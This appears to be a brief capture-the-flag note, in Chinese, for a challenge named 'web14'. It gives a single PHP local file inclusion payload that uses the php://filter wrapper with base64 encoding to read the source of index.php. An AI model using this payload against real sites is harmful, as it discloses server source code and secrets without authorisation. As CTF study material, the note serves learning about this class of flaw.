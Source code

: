 # web14 - php伪协议base64读源码

payload:
`?file=php://filter/read=convert.base64-encode/resource=index.php`